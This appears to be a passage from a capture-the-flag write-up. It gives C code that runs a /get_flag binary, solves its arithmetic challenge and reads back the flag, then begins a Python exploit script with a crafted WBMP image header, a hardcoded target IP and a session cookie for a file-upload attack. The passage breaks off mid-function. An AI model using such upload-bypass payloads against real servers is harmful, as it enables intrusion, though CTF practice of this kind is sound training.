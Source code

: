 ```c
  char msg[256];
  int status;

  pipe(inpipefd);
  pipe(outpipefd);
  pid = fork();
  if (pid == 0)
  {
    dup2(outpipefd[0], STDIN_FILENO);
    dup2(inpipefd[1], STDOUT_FILENO);
    dup2(inpipefd[1], STDERR_FILENO);
    prctl(PR_SET_PDEATHSIG, SIGTERM);
    execl("/get_flag", "get_flag", (char*) NULL);
    exit(1);
  }

  close(outpipefd[0]);
  close(inpipefd[1]);

        char data[0xff] = {0};
        read(inpipefd[0], data, 0xff);

        uint64_t sum = 0;
        char *pch;
        printf("Raw : %s\n", data);
        pch = strtok (data+34, "+");
        printf("Sum : %llu\n", sum);
        while (pch != 0)  {
                sum += strtoull(pch, 0, 10);
                printf("Operation : %llu\n", atol(pch));
                printf("Sum : %llu\n", sum);
                pch = strtok (0, "+");
        }

        char result[32] = {0};
        sprintf(result, "%llu\n", sum);
        printf("Result : %llu\n", sum);

        write(outpipefd[1], result, 16);
        memset(data, 0, 0xff);
        read(inpipefd[0], data, 0xff);
        printf("Final : %s", data);
}
```

Final payload

```python
#!/usr/bin/env python3

import requests
import base64

VALID_WBMP = b"\x00\x00\x8a\x39\x8a\x39\x00\x00\x00\x00\x00\x0a\x0a"
URL = "http://35.246.234.136/"
RANDOM_DIRECTORY = "ad759ad95e5482e02a15c5d30042b588b6630e64"

COOKIES = {
    "PHPSESSID" : "0e7eal0ji7seg6ac3ck7d2csd8"
}

def upload_content(name, content):

    data = {
```